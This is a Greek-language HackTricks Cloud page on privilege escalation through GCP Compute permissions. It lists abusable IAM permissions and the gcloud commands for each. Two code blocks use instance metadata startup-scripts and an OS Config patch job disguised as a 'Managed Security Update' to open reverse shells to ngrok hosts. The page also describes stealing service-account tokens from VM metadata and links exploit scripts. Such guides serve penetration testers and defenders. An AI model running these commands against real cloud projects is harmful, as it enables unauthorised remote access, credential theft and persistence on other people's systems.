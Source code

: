 # GCP - Εscalation προνομίων στο Compute

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε** στην 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα τηλεγραφήματος**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs** στα [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## Compute

Για περισσότερες πληροφορίες σχετικά με το Compute και το VPC (δίκτυο) στο GCP ελέγξτε:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Σημειώστε ότι για να εκτελέσετε όλες τις επιθέσεις εξέλιξης προνομίων που απαιτούν τροποποίηση των μεταδεδομένων της μονάδας (όπως η προσθήκη νέων χρηστών και κλειδιών SSH) **χρειάζεται να έχετε δικαιώματα `actAs` πάνω στο SA που είναι συνδεδεμένο με τη μονάδα**, ακόμη κι αν το SA είναι ήδη συνδεδεμένο!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Με αυτήν την άδεια μπορείτε **να τροποποιήσετε** τις πληροφορίες **μεταδεδομένων** μιας **μονάδας** και να αλλάξετε τα **εξουσιοδοτημένα κλειδιά ενός χρήστη**, ή **να δημιουργήσετε ένα νέο χρήστη με δικαιώματα sudo**. Έτσι, θα μπορείτε να εκτελέσετε μέσω SSH σε οποιαδήποτε μονάδα VM και να κλέψετε τον Λογαριασμό Υπηρεσιών GCP με τον οποίο λειτουργεί η μονάδα.\
Περιορισμοί:

* Σημειώστε ότι οι Λογαριασμοί Υπηρεσιών GCP που λειτουργούν σε μονάδες VM έχουν από προεπιλογή ένα **πολύ περιορισμένο εύρος**
* Θα πρέπει να είστε **σε θέση να επικοινωνήσετε με τον διακομιστή SSH** για να συνδεθείτε

Για περισσότερες πληροφορίες σχετικά με το πώς να εκμεταλλευτείτε αυτήν την άδεια ελέγξτε:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Μπορείτε επίσης να εκτελέσετε αυτήν την επίθεση προσθέτοντας νέο startup-script και επανεκκινώντας τη μονάδα:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Αυτή η άδεια δίνει τα **ίδια προνόμια με την προηγούμενη άδεια** αλλά για συγκεκριμένες μονάδες αντί για ολόκληρο έργο. Οι **ίδιες εκμεταλλεύσεις και περιορισμοί όπως και για την προηγούμενη ενότητα ισχύουν**.

### `compute.instances.setIamPolicy`

Αυτού του είδους άδεια θα σας επιτρέψει να **χορηγήσετε στον εαυτό σας έναν ρόλο με τις προηγούμενες άδειες** και να εξελίξετε τα προνόμια καταχρώντας τις.

### **`compute.instances.osLogin`**

Εάν **το OSLogin είναι ενεργοποιημένο στη μονάδα**, με αυτή την άδεια μπορείτε απλά να εκτελέσετε **`gcloud compute ssh [INSTANCE]`** και να συνδεθείτε στη μονάδα. Δεν θα έχετε **δικαιώματα root** μέσα στη μονάδα.

{% hint style="success" %}
Για να συνδεθείτε με επιτυχία με αυτή την άδεια μέσα στη μονάδα VM, χρειάζεστε την άδεια `iam.serviceAccounts.actAs` πάνω στο SA που είναι συνδεδεμένο στη VM.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Εάν **το OSLogin είναι ενεργοποιημένο στη μονάδα**, με αυτή την άδεια μπορείτε απλά να εκτελέσετε **`gcloud compute ssh [INSTANCE]`** και να συνδεθείτε στη μονάδα. Θα έχετε **δικαιώματα root** μέσα στη μονάδα.

{% hint style="success" %}
Για να συνδεθείτε με επιτυχία με αυτή την άδεια μέσα στη μονάδα VM, χρειάζεστε την άδεια `iam.serviceAccounts.actAs` πάνω στο SA που είναι συνδεδεμένο στη VM.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Είναι δυνατόν να **δημιουργήσετε ένα εικονικό μηχάνημα με εκχωρημένο Λογαριασμό Υπηρεσίας και να κλέψετε το τοκέν** του λογαριασμού υπηρεσίας προσπελαύνοντας τα μεταδεδομένα για να εξελίξετε τα προνόμιά σας σε αυτόν.

Το σενάριο εκμετάλλευσης για αυτήν τη μέθοδο μπορεί να βρεθεί [εδώ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Αν έχετε τις άδειες **`osconfig.patchDeployments.create`** ή **`osconfig.patchJobs.exec`** μπορείτε να δημιουργήσετε ένα [**patch job ή αναπτύξεις**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Αυτό θα σας επιτρέψει να μετακινηθείτε πλαγίως στο περιβάλλον και να κερδίσετε εκτέλεση κώδικα σε όλες τις μονάδες υπολογιστών εντός ενός έργου.

Σημειώστε ότι προς το παρόν **δεν χρειάζεστε άδεια `actAs`** πάνω στο SA που είναι συνδεδεμένο στη μονάδα.

Αν θέλετε να εκμεταλλευτείτε χειροκίνητα αυτό, θα πρέπει να δημιουργήσετε είτε ένα [**patch job**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_job.json) **ή** [**αναπτύξεις**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_deployment.json)**.**\
Για ένα patch job εκτελέστε:
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Για να υλοποιήσετε μια αναβάθμιση διόρθωσης:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
Το εργαλείο [patchy](https://github.com/rek7/patchy) μπορούσε να χρησιμοποιηθεί στο παρελθόν για την εκμετάλλευση αυτής της λανθασμένης ρύθμισης (αλλά τώρα δεν λειτουργεί).

**Ένας επιτιθέμενος θα μπορούσε επίσης να εκμεταλλευτεί αυτό για μόνιμη παραμονή.**

### `compute.machineImages.setIamPolicy`

**Χορήγησε στον εαυτό σου επιπλέον δικαιώματα** στην εικόνα υπολογιστή.

### `compute.snapshots.setIamPolicy`

**Χορήγησε στον εαυτό σου επιπλέον δικαιώματα** σε ένα αντίγραφο από δίσκο.

### `compute.disks.setIamPolicy`

**Χορήγησε στον εαυτό σου επιπλέον δικαιώματα** σε ένα δίσκο.

### Παράκαμψη Εύρους Πρόσβασης

Ακολουθώντας αυτόν τον σύνδεσμο θα βρείτε μερικές [**ιδέες για να προσπαθήσετε να παρακάμψετε τα εύρη πρόσβασης**](../).

### Τοπική Ανόδος Δικαιωμάτων στην Εικόνα Υπολογιστή GCP

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Αναφορές

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα τηλεγραφήματος**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ σας χάρη στην υποβολή PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
